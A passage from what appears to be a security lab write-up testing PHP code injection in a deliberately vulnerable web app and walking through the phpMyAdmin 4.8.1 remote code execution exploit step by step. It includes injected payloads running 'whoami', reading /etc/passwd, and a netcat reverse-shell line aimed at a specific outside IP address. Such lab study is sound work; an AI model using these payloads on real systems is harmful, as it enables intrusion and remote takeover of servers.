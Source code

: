 ```/sqli_1.php?title=&action=search```

This leads me to believe that I can inject PHP code as a ```message``` parameter and have it executed with the result reflected back to me. 

I decided to test this further with the `phpinfo` function. 

![image](./images/php_injection_phpinfo.png)

This worked. Next, we will try some OS command injection, but through PHP with

```message=HelloWorld;system("whoami");```

![image](./images/phpi_whoami.png)

Next, I tested whether the `www-data` user is isolated correctly by reading the contents of `/etc/passwd`: 

![image](./images/phpi_cat_passwd.png)

This result reveals that the user has full system file access, a reasonable level of permissions, and has not been chrooted into the www-data directory. 

This can be weaponized by injecting a payload like:

```message=hello;system("nc 104.244.192.142 5555 -e /bin/bash")```

Which would open up a reverse shell to my host, assuming I had configured it on my host ahead of time. This would give me full OS-level command injection via a reverse shell instead of just through PHP/web requests. 

## phpMyAdmin 4.8.1 - Remote Code Execution

This web appliation is a PHP webapp that runs on Apache2 and Ubuntu Linux to manage a MySQL database. I deployed it first on Ubuntu Linux in a virtual machine, and then moved it to a Docker container for ease of exploit testing. 

I have code saved elsewhere in this repository that duplicates the attack as shown on Exploit DB. Due to python version upgrades and syntax changes, the code required some modification in order to work properly with Python 3.10.6. 

The vulnerability exploited here is a remote code execution vulnerability. Once authenticated to theweb application, it allows the attacker to drop a payload in a GET parameter where it is saved to disk. The attacker then makes another request to execute the payload and get the result which is displayed in the terminal. I have the current payload as `'whoami'`, but this could easily be a `netcat` command to start a reverse shell on the host. 

![image](./images/exploit_whoami.png)

The attack requires four HTTP requests, a valid username and password, and a session cookie to keep everything tracked. 

The attack starts by loading the login page for the web app. 

![image](./images/exploit_url.png)

Next, the attacker gets the session cookie generated from this GET request:

![image](./images/exploit_cookie.png)

This cookie is used to make sure that all the following HTTP requests go into the same session. This is important as the attack requires valid credentials and logging in via basic HTML authentication. 

```